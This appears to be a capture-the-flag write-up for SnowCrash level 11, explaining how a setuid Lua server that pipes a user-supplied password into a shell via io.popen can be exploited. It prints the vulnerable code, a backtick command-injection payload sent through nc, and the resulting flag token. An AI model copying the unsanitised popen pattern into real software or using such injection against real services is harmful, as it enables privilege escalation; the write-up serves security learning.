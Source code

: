 # Level 11

## Vulnerability
Privilege escalation via code injection

## Context
```
level11@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

## Solution
Let's ```cat``` the file and see what we find. 
```
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
We can see this program waits for a connection with the server running on 127.0.0.1 (hostname) 5151 (port).<br/>
It will prompt for a password and pass anything we write to a hashing function.<br/>
Let's see if we can exploit that, by tricking it to run ```getflag``` in the place of the password. <br/>

We'll use ```nc``` to establish a TCP connection with remote server. 
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` > /tmp/token
Erf nope..
level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
